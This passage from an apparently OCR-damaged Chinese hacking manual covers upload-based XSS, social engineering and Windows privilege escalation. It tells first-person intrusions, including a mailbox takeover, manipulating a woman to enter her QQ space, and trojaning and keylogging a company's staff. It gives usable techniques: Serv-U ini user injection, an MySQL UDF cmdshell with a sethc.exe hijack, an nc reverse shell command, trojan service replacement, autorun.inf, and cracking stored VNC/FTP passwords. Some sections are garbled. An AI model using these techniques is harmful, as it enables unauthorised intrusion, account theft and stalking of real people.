<style>
body,td{font-size:12px;}
</style>
<script language="javascript">
/*--------------------------------------------------
  文件上传控制检测程序测试版
  远程图片检测功能
  检测上传文件类型
  检测图片文件格式是否正确
  检测图片文件大小
  检测图片文件宽度
  检测图片文件高度
  图片预览
  For sienk.net  Author: vini5
  Update: 2008/11/01
--------------------------------------------------*/
var ImgObj = new Image();
var AllImgExt = ".jpg|.jpeg|.gif|.bmp|.png|";
var FileObj, ImgFileSize, ImgWidth, ImgHeight, FileExt, ErrMsg, FileMsg, HasChecked;
var AllowExt = ".jpg|.gif|.doc|.txt|.*|";
var AllowImgFileSize = 70;
var AllowImgWidth = 500;
var AllowImgHeight = 500;
HasChecked = false;
function CheckProperty(obj) { /* 检测图像属性 */ }
```

```javascript
FileObj=obj;
if(ErrMsg!="") {            // 检测是否为正确的图像文件，返回出错信息并重置
    ShowMsg(ErrMsg,false);
    return false;            // 返回
}
if(ImgObj.readyState!="complete") {   // 如果图像是未加载完成，进行循环检测
    setTimeout("CheckProperty(FileObj)",500);
    return false;
}

ImgFileSize=Math.round(ImgObj.fileSize/1024*100)/100;   // 取得图片文件的大小
ImgWidth=ImgObj.width;       // 取得图片的宽度
ImgHeight=ImgObj.height;     // 取得图片的高度
FileMsg="\n 图片大小："+ImgWidth+"*"+ImgHeight+"px";
FileMsg=FileMsg+"\n 图片文件大小："+ImgFileSize+"Kb";
FileMsg=FileMsg+"\n 图片文件扩展名："+FileExt;

if(AllowImgWidth!=0&&AllowImgWidth<ImgWidth)
    ErrMsg=ErrMsg+"\n 图片宽度超过限制，请上传宽度小于"+AllowImgWidth+"px 的文件，当前图片宽度为"+ImgWidth+"px";
if(AllowImgHeight!=0&&AllowImgHeight<ImgHeight)
    ErrMsg=ErrMsg+"\n 图片高度超过限制，请上传高度小于"+AllowImgHeight+"px 的文件，当前图片高度为"+ImgHeight+"px";
if(AllowImgFileSize!=0&&AllowImgFileSize<ImgFileSize)
    ErrMsg=ErrMsg+"\n 图片文件大小超过限制，请上传小于"+AllowImgFileSize+"KB 的文件，当前文件大小为"+ImgFileSize+"KB";

if(ErrMsg!="")
    ShowMsg(ErrMsg,false);
else
    ShowMsg(FileMsg,true);

ImgObj.onerror=function(){ErrMsg="\n 图片格式不正确或者图片已损坏!"}

function ShowMsg(msg,tf) {   // 显示提示信息，tf=true 显示文件信息；tf=false 显示错误信息
    msg=msg.replace("\n","<br>");
    msg=msg.replace(/\^/g,"<li>");
    if(!tf) {
        document.all.UploadButton.disabled=true;
        FileObj.outerHTML=FileObj.outerHTML;
        MsgList.innerHTML=msg;
        HasChecked=false;
    } else {
        document.all.UploadButton.disabled=false;
        if(IsImg)
            PreviewImg.innerHTML="";
        else
            PreviewImg.innerHTML="非图片文件";
        MsgList.innerHTML=msg;
        HasChecked=true;
    }
}

function CheckExt(obj) {
    ErrMsg="";
    FileMsg="";
    FileObj=obj;
    IsImg=false;
    HasChecked=false;
    PreviewImg.innerHTML="预览区";
    if(obj.value=="") return false;
    MsgList.innerHTML="文件信息处理中...";
}
```

```html
...document.all.UploadButton.disabled=true;
FileExt=obj.value.substr(obj.value.lastIndexOf(".")).toLowerCase();
if(AllowExt!=0&&AllowExt.indexOf(FileExt+"|")==-1) // 判断文件类型是否允许上传
{
    ErrMsg="\n该文件类型不允许上传。请上传 "+AllowExt+" 类型的文件，当前文件类型为 "+FileExt;
    ShowMsg(ErrMsg,false);
    return false;
}

if(AllImgExt.indexOf(FileExt+"|")!=-1) // 如果是图片文件，则进行图片信息处理
{
    IsImg=true;
    ImgObj.src=obj.value;
    CheckProperty(obj);
    return false;
}
else
{
    FileMsg="\n 文件扩展名 "+FileExt;
    ShowMsg(FileMsg,true);
}

function SwitchUpType(tf)
{
    if(tf)
        str='<input type="file" name="file1" onchange="CheckExt(this)" style="width:180px;">'
    else
        str='<input type="text" name="file1" onblur="CheckExt(this)" style="width:180px;">'
    document.all.file1.outerHTML=str;
    document.all.UploadButton.disabled=true;
    MsgList.innerHTML="";
}
</script>
<form enctype="multipart/form-data" method="POST" onsubmit="return HasChecked;">
<fieldset style="width:372;height:60;padding:2px;">
<legend><font color="#FF0000">图片来源</font></legend>
<input type="radio" name="radio1" checked onclick="SwitchUpType(true);">本地
<input type="radio" name="radio1" onclick="SwitchUpType(false);">远程
<input type="file" name="file1" onchange="CheckExt(this)" style="width:180px;">
<input type="submit" id="UploadButton" value="开始上传" disabled><br>
<div style="border:1 solid #808080;background:#E0E0E0;width:100%;height:20px;color:#606060;padding:5px;">
<table border="0"><tr><td width="60" id="PreviewImg">预览区</td><td id="MsgList" valign="top"></td></tr></table>
</div>
</fieldset>
</form>
```

##### 2. PHP 对文件是否存在的检测

查阅了相关资料，PHP 一般使用 **MAX_FILE_SIZE** 这个参数来限制文件大小，但是可以简单绕过，而通过 `filesize()` 函数对文件大小的检测可以有效地处理 XSS 构造跨站脚本上传文件大小为 0KB 的问题。

##### 3. ASP.NET 对文件大小的检测机制

通过 ContentLength 对文件内容进行判断，可避免上传空文件，我们要构造的 XSS 跨站脚本一般大小为 0KB，通过对内容字节的检测就可以有效地避免 XSS 跨站的发生。

总结：对于提供上传类操作框的位置最好的处理方法就是通过对特殊代码的过滤，以及不允许直接写入内容进上传框和检测文件大小的方式来避免上传型 XSS 问题的发生。此类 XSS 漏洞的发掘需要逆向思维，仔细分析源代码进行对比，猜解网站代码的过滤机制。腾讯 QQ 邮箱的上传附件就曾出现过这种跨站，可惜现在补丁了。

### 5.4 总结

好多人都以为弹个框框会有什么用呢？是的，弹个框框没有用，但通过弹框框就可以确定这个地方存在严重的 XSS，而你技术够好则可以通过 XSS 做任何事。只有想不到，没有做不到，这，就是 XSS 的特点。

### 使用说明

[正文内容因图像质量过低无法准确辨识]

### “本日值日生”

## 杜念正

## 程学


## 笔记 006 档案：就在身边——社会工程学

如果你看过“黑手”出版的《黑客社会工程学攻防》一书，那么一定被里面不需要任何高深技术就可以入侵别人的手法而吸引吧？和那本书比起来，本章只能算是微不足道。这里总结了一下，其实我们可以大体把社会工程学分为两种，一种是间接渗透，另外一种就是直接接触。

### 6.1 间接渗透

这种手法也是最常见的，现在接触网络一般都会看新闻、上论坛、写 blog 或玩游戏……上网的大部分人都会选择有一些交流方式，如通过邮件、QQ 等。那么，这些东西的存在就是一种向外界展示自己信息的窗口，而往往就是这些信息中会包含我们平常惯用的密码组合，甚至就是密码本身。有些人写博客，在个人档案里总喜欢把自己的档案写得清清楚楚：什么时候的生日，有哪些爱好，就读过哪些学校，读的什么专业……大家可以到百度空间里随便点击一下就可以找到相关的范例，如图1所示。


图1

对一个攻击者来说，图1中所展示的信息则是非常有用的。如果你觉得这些资料仍然不够详细，你可以用 ID、目标的昵称、一些邮箱地址来到 GOOGLE 或者百度进行再次搜索。如我们先用她的 MSN 号为关键字在 Google 进行搜索，结果如图2，才两项结果，而且都是百度空间的。


图2

如果你搜索国内用户，用百度搜索的结果往往要多于 Google 的搜索结果，而且不同的搜索引擎得到的结果再进行比较分析，得到的信息准确度会高许多。既然用 MSN 的信息搜索不理想，那我们再用 ID 试一下。这次用 Google 吧，得到的结果明显比刚才多很多，如图3。这下可有上百个结果了，这么多的信息当中，肯定会有一些敏感信息的。通过查询，我们在 space、hexun、百度有啊等网站上都能发现其踪影，这样就可以一环接一环地找到所有信息。

图3

找到信息后下一步怎么做呢？现在回过头来问一下自己，我们的目标是什么：是为了获得其博客的密码，还是为了得到其 QQ 号？是为了控制其 MSN，还是为了监控其邮箱？不同的目的攻击手法自然就不一样了。平常说来，我们面对的都是一些网站，当技术不能解决问题的时候，我们求助一下社会工程学。比如想得到管理员的权限或者站长的 email，我们可以先利用 WHOIS 查询站长注册的一些信息，如图4，从中可以得知一个站点的注册信息。

图5  
图4

这些并不过瘾，我们来看一个案例，如何通过这些细节达到拿 SHELL 的目的。

#### 6.1.1 社工入侵案例

- 1. 入侵目标
  - 此次入侵目标为：`http://www.test.cn`，手头并无源码，尝试常规漏洞未果，决定采取旁注。
  - 先到旁注查询网站：`http://www.ip866.com/reverse.aspx`，输入目标地址后如图5所示。
  - 由结果排查选取 `http://www.test1.com/` 作为目标，此网站为 asp.net 结构。

- 2. 社工入侵
  - 该网站属于个人性质网站，作者已在页面底部透露了个人信息，如图6。
  - 先确定目标是否为网站的所有者，采取 WHOIS 查询排查，结果如图7。
  - 由此可以肯定网站的所有人信息如下：

邮箱属于个人用户透露信息的一个口子，所以我们利用信箱密码保护功能进行找回密码的操作。首先必须确定的是他的生日，采取 Google 搜索信箱透露的信息，结果如图8。

此页面透露了此人的出生年份：1967年。查看 QQ 的个人资料，结果如图9。

由此我们很轻易地得到了他的生日为：1967-10-31。接着开始进入信箱密码寻回操作，263邮箱密码寻回功能页面为：`http://mailbeta.263.net/setpass.html`，如图10。

这里的问题为“who”，我把这些答案拿去尝试：hudongbo、thudb、胡东波、are you 等，最后尝试使用问题“who”作为答案，居然成功返回了修改密码的页面，如图11。

修改密码后即可进入对方的信箱了，如图12。

看了看里面的邮件，并没有透露出有用的信息。在采用 Google 搜索信息的过程中，发现他已经注册为“太平洋电脑网”的个人用户，我们采取“密码找回”看能否获得有用信息，如图13、图14。

最后我们获得一封邮件，很可贵的是透露了原密码，如图15。接下来的操作就是修改信箱密码，最后利用该密码成功登录了他的网站，如图16。

权限已是系统管理员，通过下载资源页面轻松获取 webshell，如图17，由此该次社工入侵圆满成功。

##### 3. 补充说明

此次社工并无高深技巧，其实就是通过邮箱来找回密码。在一般情况下，如果是类似 discuz 或者 phpwind 的论坛，只会发送一封修改密码的页面，所以不可利用。另外，如果管理员喜好采用不同密码，那么结果就是你做无用功。

此入侵的最重要一步就是猜测答案的过程，这也是社工中最需要经验和运气的一部分。需要凭借个人灵感，这就是社工入侵的魅力所在吧。正如上面文章中所说，社工需要靠你的思维和灵感，解决问题不一定非用技术手段，从“人”下手，有时候效率或许会更高。

### 6.2 直接接触

这里的直接接触是指可以与目标进行沟通交流，并进行信息索取。在做这些之前，攻击者往往会根据一定的信息来了解对手，如目标的兴趣和爱好，所在公司地理位置，公司事件，甚至最近的心情等。收集这些信息除了利用搜索引擎外，大家还可以尝试着利用“人肉搜索”来达到目的。

我们来看一下活生生的案例吧，在这则案例里，我们的目标是一个女性同胞，也是搞安全的，警惕性很高。由于一些影响因素，我这里就不上图了，事情是这样的。

一天，这位女性加到群里以后，大家都想知道她的一些信息，可又不想直接询问，也知道直接询问所得到的信息不一定就最真实。通过 QQ 上的资料发现，她开了 QQ 滔滔和 QQ 空间（要问题答案），先用 GOOGLE、百度以及 YAHOO 搜索其 QQ 号以及昵称，效果不明显。后来进入腾讯的 QQ 滔滔，而这里只有简短的几篇日志。我们这时候该如何通过这点信息进入其 QQ 空间呢？

首先我加她 QQ，因为事先对其爱好和兴趣都有所了解，所以我就围绕着她的爱好一直在交谈着。很明显，由于交谈甚欢，她没有发现我的企图。为了不让她有所察觉，第一天聊的时间并不太长。

第二天再和她聊的时候，我把怨大学专业没有选好，问她是学的什么？结果她就很轻松地告诉了我她所就读过的专业。为什么我要问这个？因为她的 QQ 空间进入的问题是这样设置的。接着我利用她告诉我的“专业”答案很顺利地进入其 QQ 空间，信息一下子多了许多。当然，我没有放弃对她的继续“搜索”，她也没有发现我的企图。我做的选择就是等待，或许下一次，我能得到更多……

再看一个案例吧，先介绍一个社工前的情况：目标是某跨国公司，总部在美国，中国有其分公司，我的目的是拿到其核心数据。至于如何踩点和信息收集我这里也不重复了，只讲一下关键的地方。

现在情况是拿到了业务经理的电脑，在这一刻，可以说我拿到了全部权限了。由于有些兴奋，我对其种了 pcshare 木马，并开了键盘记录。可惜的是，这样的好景不长，因为我的操作过急和频繁，这个权限的存活期连一天都没有到。之后，业务经理重做了系统，并更换了几乎所有内网机器的密码。

怎么办？任务没有完成，如何二次进入？换作是你，你会如何进行二次进攻？由于业务经理的机器是进入内网的一个突破口，可现在这个突破口没了，那内网怎么再进去呢？记得前面的键盘记录么？我记录了其与 CTO 的聊天记录，包括 MSN 和 QQ。当然，我还从业务经理的电脑里得到了一些其它资料，为了方便大家理解，我制作了一张图，如图18。

仔细看图18，注意力转移到 CTO 身上。由于得到其聊天记录并知道了 CTO 的一些兴趣、爱好以及其它资料，我做了一个大胆的举动——我加了他的 MSN。这里，算作是第二次进入的一个关键点了。有时候不要以为在暗处可能会隐蔽些，其实不然，反客为主的策略同样有意想不到的结果。当然，你千万别在不了解对手之前盲目地和他进行聊天。

CTO 也是一个程序员，这样共同的话题明显可以吸引他和我进行交流。之后，我们的话题明显没有再局限于技术问题了，直接谈生活、谈学业、谈工作、谈娱乐圈……时机已经成熟，我们聊到了生辰八字，很显然，读这本书的你就知道我的用意了，这样生日就到手了。

突破点再一次出现，回过头来看一下和下级的聊天记录以及原服务器密码，苦思一番之后，发现“ID+生日”这样的组合极有可能是 MSN 等的密码。是的，经过一些尝试之后，CTO 的 MSN 和 QQ 已经全部被我沦陷了，之后的事情都顺理成章了，我再一次进入了其内部网络。

在其内网徘徊的时候，我又犯了一个很严重的错误！某个晚上的3点多，我登录 CTO 的 MSN 想去查看一下 MSN 邮件，谁知他 MSN 晚上都是不关的，结果导致被发现，CTO 之后也更改了几乎所有的密码。后来想想，我完全没必要去登录他的 MSN，直接去 HOTMAIL 看就可以了。后悔也挽不回来权限，第二次权限的丢失完全是因为我的大意。当然，我怎么会如此甘心权限就这样轻易地丢失呢？那么，第三次我是……

图18

## 如何再次突破其防线的呢？

回想第二次的进入，发现自己完全没有应用到技术层面的东西，完全太依靠社工了。所以第三次再想进入的时候，开始寻找一些入口点，最后发现在他们的 DZ 论坛上，CTO 的密码没有改，也许是他忽略了。机会再次来临，通过 DZ 拿到 SHELL 后，怎么知道 CTO 改后的密码呢？这个时候，我又做了一个大胆的手段，那就是更改 CTO 论坛的密码（这里当然是在数据库里操作了）。CTO 在发现密码不对以后，肯定会再次更改其密码的，然后用一段代码将其记录即可。

很奏效，CTO 按照我的想法更改了密码。为什么我会这样想呢？因为通过前面的一些分析，我们可以了解到 CTO 的密码保护意识不强，并且他修改 MSN 的时候就在我拿 SHELL 的前一天，假如再次修改密码，一般人都会改成一样的，所以我算死他会这样做。这样，我得到新密码再次杀进其内网。

我一边在收集资料的同时也一边在和他们周旋，虽然一再小心，可还是有些地方操作失误，并且估计他们也发现了资料泄露的问题，导致第三次完全更改了所有的密码，权限再一次失去。既然已经惊动他们了，就失去再次立即进攻的可能性，我的选择是等待，等待他们以为我已经溜走或他们不再这么警惕的时候，我会再次把目光瞄准他们……

大家不要以为上面两则案例是我编出来的，这就是发生在我周围的事情。好了，关于社会工程学这一部分我就讲到这里，没有太多的图片来讲解，因为这些本身并不是你要看多少图能理解的，主要看思维的运用。

还记得世界头号黑客么，还记得那个名字吗？凯文·米特尼克，他不但往来于各种大型机构的电脑之间，而且还能轻易地从对手的眼皮底下溜走。他技术很厉害，但不得不承认，他的头脑同样发达。他写的《欺骗的艺术》和他的传奇一生一样精彩。当然，“黑手”出版的《黑客社会工程学攻击》也不错。没有做不到的，只有想不到的，希望以上的案例能给你一些启发，管理员可要更加小心了哦。

> （后记部分，框内大段文字，图像中内容较浅且难以辨认）

## “末日值日生”

## 校园

## 笔记 007 档案：巅峰时刻——权限的较量

还记得前面几章中通过一些手段拿到 webshell 后我们都没有进一步地搞下去，而在这一章节里，我将会向大家介绍如何通过 webshell 拿到系统权限并进一步渗透。关于如何提权，读者可以百度一下，这类文章真的很多。不过这其中我发现了一个很严重的问题，那就是有些人对于一些技术文章钻研得不够，一味地乱转载。而其中一些文章里难免会有一些错误，这样转来转去会对一些新入朋友造成一定程度上的误导。这里想说的就是，网上的文章不一定都对，只有自己实践的东西最真。

### 7.1 提权概览

在 Windows 下提权的方法有很多种，下面我们就来一一进行接触。

### 7.1.1 serv-u 提权

关于 serv-u 提权，网络上很多文章都给出了方法，思路大概分为两种，第一是 ServUDaemon.ini 有修改权限，第二是 ServUDaemon.ini 没有修改权限。如果有权限修改，我们可以在文件后面加上如下代码，注释我已经写好了。

```ini
[USER=test1]                 // 用户名
Password=...                 // 用户密码加密后的密文
HomeDir=c:\                  // 默认根目录
TimeOut=600                  // 超时时间设置
Maintenance=System           // 权限
Access1=c:\|R/WAMELCDP       // 可访问的目录及权限
Access2=d:\|R/WAMELCDP       // 可访问的目录及权限
Access3=e:\|R/WAMELCDP       // 可访问的目录及权限
```

这样就可以提权了。如果没有权限修改，很多 shell 都带有 serv-u 溢出程序。这个溢出主要是利用了没有修改 serv-u 默认用户名和密码的缺陷。看下图1中我做了标记的部分，表示可以执行命令，那么我们当然也可以利用这个来加一个系统用户了。当然，如果发现管理员把密码改了，我们可以把 ServUAdmin 下载到本地，然后用十六进制编辑器打开后查找 password 字段就可以发现密码了。另外，在 serv-u7 里面，好像禁止了对 c 盘的访问，所以在用网上默认的脚本提权时往往不会成功，这个时候必须把脚本改成其它盘符，如 d: 或者 e: 之类的。除了上面提到的一些技巧外，前面提到加系统用户代码中的第二行，那个密码是可以暴力破解的。

#### 7.1.2 pcAnywhere 提权

这款远程管理软件密码保存在 `c:\Documents and Settings\All Users\Application Data\Symantec\pcAnywhere\` 目录下的 `*.cif` 文件中，我们把它下载回来以后就可以利用工具读出密码了。有一款工具名为 PCAnyPass，运行后单击“get password”，载入下载回来的 `*.cif` 文件就可以看到相应的密码了，如图3。

另外在高版本中，`*.cif` 文件中的密码是读不出来的，就算读出来了也会是乱码。但在高版本中，`C:\Documents and Settings\All Users\Application Data\Symantec\pcAnywhere` 目录下有一个 hosts 文件夹，里面同样存在着以 cif 为后缀的文件，我们可以通过本地配置一个具有管理员权限的用户，然后将生成的 cif 文件传上去并覆盖，从而得到进一步的权限。

除了上面提到的技巧外，还有一个令好多人头疼的问题，就是连上以后发现还需要 Windows 的密码。这个问题在网络上的解决办法就是 DDOS 目标机，通过其重启的时候连上去，不过这种方法的可行性有点不切实际。接下来我要讲的这种方法就可以绕过这种局限，当然了，并不是所有的都有效，快来看看具体怎么做吧！

现在我们遇到的情况是这样的，连上远程主机后发现还需要密码，如图4。怎么办？通过思考和观察，发现这种情况是很容易绕过的。我们来看一下控制台左边的菜单，发现可使用“command queue”和“file transfer”功能。“file transfer”是关于文件传输的，我们在这里就是要使用“command queue”（命令行列）。现在大家来看看我是怎么通过这个按键来达到加系统用户权限的。

单击一下“command queue”，如图5，在控制台右边最下面出现了如图6的界面。看到没？关键就在这里了，在“command”下拉菜单中选择“run command”，然后在本地新建一个批处理，里面当然是加系统用户的代码了。接着在“source”这一栏填上批处理的本地路径，最后还要把“wait until command finishes”钩上，填好后的状态如图7。

最后单击“add”就可以了，稍等片刻，代码执行完后，再切换到“remote control”就可以用刚才加的用户登录了。另外，那个“file transfer”不需要登录就可以用，如图8。

最后再来一张成功登录进去后的截图，如图9。

这里要说明一下，相同的方法并不是对所有的站点都有效，这个要视情况而定，下次要是碰到了这种情况要仔细分析。另外，pcanywhere 不能像 radmin 那样实现多人同时登录，只允许一个人登录。

#### 7.1.3 通过 MSSQL 提权

这类提权大抵在前面几章中已经讲过了，如果是 sa 权限的情况，可以参考前面的方法去执行系统命令；如果是 db_owner 权限的话，也可以备份文件到启动项。还不了解的话，可以翻翻前面几章的内容。

### 7.1.4 通过 MYSQL 提权

这类都是基于网页形式的，相比之下就没有命令行操作那么麻烦，如图10，是通过 udf 来提权的 PHP 的 WEBSHELL。

填好相应的信息后，点击“提交”就可以导出 `udf.dll` 了。由于这里的机器是 WIN2000，并且 MYSQL 版本 >5.0，这里我就导入到了 `c:\winnt\system32` 目录下，如图11。

接着要做的就是建立存储过程了，语句和命令行下的一样：`create function cmdshell returns string soname 'udf.dll'`，执行结果如图12。

过程创建完以后就可以执行命令了，如执行系统命令：`net user`，得到的结果如图13。

通过以上的演示我们可以看到，这和命令行下的操作差不多，只是采用的是 web 形式而已。这里我要提到的技巧就是映像劫持，前面在 MSSQL 下利用 sa 权限可以做到，这里在 MYSQL 里利用 root 权限一样可以做到。

首先也是创建函数名，不过这里的函数名要为 `regwrite`，接着执行如下语句：

```sql
Select regwrite('HKEY_LOCAL_MACHINE',
'SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\sethc.exe',
'Debugger', 'REG_SZ', 'c:\\winnt\\system32\\cmd.exe')
```

执行后的效果如图14，接下来就不用我再说了吧？呵呵。

#### 7.1.5 利用 Radmin 提权

关于利用 Radmin 提权的方法早就有了，只不过最近由于出了个 Radmin Hash 提权，才使得这个更加令人关注。如图15，通过 WebShell 自带的扫描端口功能得知服务器开了 4899，这给我们提权带来了一丝希望。接下来怎么办？我们也不需要按照以前的方法去找注册表了，直接上传 radmin.asp，然后访问它，就可以得到相应的 32 位 Radmin 密码 Hash，如图16。虽然有误，但依然读出来了，其中 parameter 对应的值就是密码 Hash。接着使用 Radmin 的 Hash 欺骗版，设置都和以前一样，连接时我们只需要输入刚才的 32 位字符就可以了，如图17。


图15


图16


图17

输入完毕直接点击“确定”就可以了，如图18，是我 TELNET 进去后进行的操作。

#### 7.1.6 VNC 提权

VNC 也是一种远程管理软件，它的一些密码信息通常保留在注册表里，因此我们有机会通过读取注册表来得到相关信息。这里有一点要注意，我演示的版本是 3.3.7，读取键值是：`HKEY_LOCAL_MACHINE\SOFTWARE\ORL\WinVNC3\Default\password`，这是用海洋一句话读取的，如图19。然后点击“读取”，得到的结果如图20。


图19


图18


图20

这里得到的值是十进制，我们要把它们转换成十六进制。至于用什么工具转换大家可以随便，转换后可以用记事本把这些转换前和转换后的数值分别记下来，如图21。

现在出场的工具是 VNC4X，前面提到过暴力破解，需要用到的参数是 -W，记住哦，参数 W 是大写！例如输入：`vnc -W` 后再按回车，然后依次把转换后的十六进制值输入进去；每输入一个就按回车一下。当输入完最后一个后，工具就会把密码破解出来了，如图22，我们知道了密码为 angel，然后用这个密码进行连接就可以了。


为什么我要在前面交代 VNC 的版本问题呢？因为在 4.0 版本中，默认的密码键值在：`HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4\password`，而如果我们用刚才的海洋 shell 进行读取时就会出现如图23所示的错误。

最后通过查询资料和测试发现，在 VNC 4.0 版本中，默认的注册表键值在 iis_user 权限下是无法读取的，简单点说就是权限不够。我也不知道那些网上读取 VNC 4.0 的密码是如何做到的，至少在我测试的两套系统中没有成功过。


#### 7.1.7 NC 反弹

这里说的 NC 反弹并不是说用 NC 反弹可以得到 system 的权限，那是不可能的。但为什么要用到 NC 呢？这里就涉及到权限方面的知识了。

IIS 的运行是依靠 IUSR（来宾账户，GUEST 组权限）和 IWAM（IIS 的启动账户，IIS_WPG 组权限）以及默认的 `nt authority\network service`（IIS 内置账户）来运转的。也就是说，我们用 WebShell 直接去看目录内容的时候，是以 IUSR 来宾账户的权限去看的；而当我们执行命令时，却是用默认的 `nt authority\network service`（IIS 内置账户）或 IWAM 账户来运行的（以 IWAM 权限运行的一般是自己设置的）。


正是因为两个账户权限不一样，所以造成了一些权限管理上的漏洞，当我们用 WebShell 查看一些目录时会得到如图24所示的信息。

但这个时候我们可以用 WSH 以执行命令的形式，用 IIS 内置账户或 IWAM 的权限去查看目标信息，如图25。

为了更好地说明，我们来用 NC 反弹回来试下。在 SHELL 里执行命令：`e:\wwwroot\nc.exe -e e:\wwwroot\cmd.exe 192.168.1.110 32`，当然本机要用 NC 监听 32 端口。我们用 `whoami` 命令看下当前的权限，结果如图26。


这个权限就比用 WebShell 直接查看其站点目录内容的权限稍高。这个时候再执行命令 `dir c:\` 看下，结果如图27。这样一来，我们可以通过这类疏忽了解到目录结构及文件位置了。


#### 7.1.8 JSP、PHP 及 ASP.NET 脚本

一般情况下，ASP 脚本的权限实在是太低，这不足以让我们做更多的事。但一台服务器上往往不仅仅只支持 ASP，就拿 WIN2003 系统来说，默认是支持 ASP.NET 的，而 ASP.NET 权限又比 ASP 权限稍高。

由于管理员防范意识不足，默认安装的 JSP 及 PHP 脚本则是系统权限，因此，这就成了可以突破的点。

如何知道这台服务器装了其它脚本呢？很多人喜欢用 set 这个命令查看环境变量。其实这个也不准确，因为它本身也受到权限的限制，如我在 WebShell 里执行 set 命令得到的结果如图28。

为了让大家看得更全一些，我把显示出来的结果贴出来：


```text
ALLUSERSPROFILE=C:\Documents and Settings\All Users
CommonProgramFiles=C:\Program Files\Common Files
COMPUTERNAME=TEST1-B6ED4DE13
ComSpec=C:\WINNT\system32\cmd.exe
NUMBER_OF_PROCESSORS=1
OS=Windows_NT
Os2LibPath=C:\WINNT\system32\os2\dll
Path=C:\WINNT\system32;C:\WINNT;C:\WINNT\System32\Wbem;C:\Program Files\Microsoft SQL Server\80\Tools\BINN
PATHEXT=.COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH
PROCESSOR_ARCHITECTURE=x86
PROCESSOR_IDENTIFIER=x86 Family 6 Model 15 Stepping 13, GenuineIntel
PROCESSOR_LEVEL=6
PROCESSOR_REVISION=0f0d
ProgramFiles=C:\Program Files
PROMPT=$P$G
SystemDrive=C:
SystemRoot=C:\WINNT
TEMP=C:\WINNT\TEMP
TMP=C:\WINNT\TEMP
USERPROFILE=C:\Documents and Settings\Default User
windir=C:\WINNT
```

看到没有，这里的显示根本没有 PHP 以及 JSP 环境变量的字眼出现。有人会说了，可以用 path 命令来显示环境变量的相关路径呀！那我们再来试一下，结果如图29。


图29


图30

通过上面的判断，你是不是就以为这台服务器真没有装 PHP 或者 JSP 环境呢？我们以 administrator 的身份登录到该主机后执行 **set** 命令，结果如图30。

两个相同的命令，最终的显示却是完全不一样的效果。现在我们知道服务器装有 PHP 环境，这样就可以用 **DIR** 命令一个一个地查找目录，并把相应的 PHP 版本的 WebShell 传上去。

通过对信息的综合处理及分析，发现 PHP 安装目录在 D 盘，以及相应的 WEB 路径也在 D 盘，并且端口为 88。这样我们就可以通过 ASP 版本的 WebShell 把 PHP 版本的 WebShell 传上去。

**注意哦！** 虽然我们用 ASP 的 shell 转到 `d:/appserv/www/`（PHP 环境目录）时依然提示出错，如图31，但是依然可以上传 SHELL，结果如图32。


图31

接着就是找到 PHP 版本的 WebShell 进行访问啦！运气不错，PHP 是以 SYSTEM 权限运行的，如图33。因此，在确定服务器上安装了哪些软件时，不要轻易相信一些命令的结果，要多方面查看，如查看开放的端口、有哪些服务等，综合分析才不会出现判断失误的情况。


图32


图33

#### 7.1.9 替换服务

既然涉及到服务，当然是要查看目标服务器上有哪些服务了。现在几乎所有的 WebShell 都自带查看服务的功能，如海洋的就是在“系统服务信息”里进行查询，可惜的是这里查不到，如图34。没关系，还记得前面讲到的命令吗？我们用 `sc query` 查看一下，结果如图35。这样我们就可以确定哪些是系统服务，哪些不是。然后把那些是以系统服务启动的找出来，找到相应程序的地址。如平常提到的杀软 NOD32，它的默认目录为：`C:\Program Files\ESET\nod32kui.exe`，我们可以把 nod32kui.exe 改成其它的名字，然后上传木马到这个目录里，木马的名字改为 nod32kui.exe，这样下次服务器重启的时候就会自动运行木马了。


图34


图35

#### 7.1.10 autorun.inf 提权

说实话，现在利用这种方法提权的很少了，为什么呢？因为这个方法是从 AUTO 病毒身上学来的，可现在的杀毒软件早就把 AUTO 病毒视为眼中钉，要想靠它提权就得动一番脑筋了。

即使是这样的状况，如果遇到服务器没杀软，提权又很艰难的情况下，可以考虑此方法。我们需要一个关键的文件，名为 autorun.inf，内容如下：

```ini
[AutoRun]
open=1.bat
shellexecute=1.bat
shell\Auto\command=1.bat
```

其中 1.bat 就是你想要运行的程序名，这里要说明一下，不止 bat 和 exe 可以运行，还可以运行 vbs 等其它文件。把以上文件放到 C 盘，当管理员双击 C 盘的时候就会运行我们设置的程序，这样就达到我们的目的了。

#### 7.1.11 溢出提权

说起溢出，大家一定会想到系统方面的溢出。其实不然，只要是以 system 权限运行的程序，不管是不是系统的，包括第三方软件，如 WinRAR 及一些邮件系统，都有可能出现溢出。具体的溢出方法根据不同的环境而使用，大家要灵活应用。

#### 7.1.12 FlashFXP、LeapFTP 提权

上面两款软件都是 FTP 软件，使用者也是比较多，我们可以把其相应的配置文件下载到本地进行对目标站一些 FTP 信息的查看。如 LeapFTP 的配置文件名为 sites.ini，通过网络把对方的这个文件下载回来后覆盖本地的相同文件，再打开 LeapFTP，接着选择“站点”->“站点管理器”，就会出现相应的结果了，如图36。

这里你会发现，密码都是星号，其实我们已经可以连接 FTP 地址了。如果你还想知道密码具体是什么，可以使用“XP 星号密码查看器”，然后点击“看得见”，密码就会暴露出来了，如图37。


如果你遇到的是 FlashFXP，它需要两个文件名，一个为 **sites.dat**，另一个是 **quick.dat**，将这两个文件从对方主机下载后覆盖自己本地的文件，然后运行 FlashFXP，依次选择“站点”->“站点管理器”就可以查看了，如图38。

以上方法在内网入侵的时候，也是需要收集信息。

#### 7.1.13 G6FTP 提权

这一款 FTP 服务器用的也比较多，它的配置信息是保存在一个 ini 文件里，如 remote.ini 文件的一段内容为：

```ini
[Server]
IP=127.0.0.1,8021\r\n192.168.1.200,8021\r\n
G6IniA|AccessToLocalhost=0
IPAccessList=
[Acct=Administrator]
Enabled=1
Rights=0
Password=F4F068E71E0D87BF0AD51E6214AB84E9
IPAccessList=192.168.1.110,Allowed;\r\n
Domain=
RootFolder=
[Acct=test]
Enabled=1
Password=098F6BCD4621D373CADE4E832627B4F6
Domain=
RootFolder=
Rights=0
IPAccessList=192.168.1.200,Allowed;\r\n
```


图38

其中有两个用户，一个是 administrator，另一个是 test。而其中的 password 对应的则是用 MD5 加密的密码，我们可以到 www.cmd5.com 上进行破解。我们将上面文件内容中的密码破解出来，结果为 angel，如图39。


图39

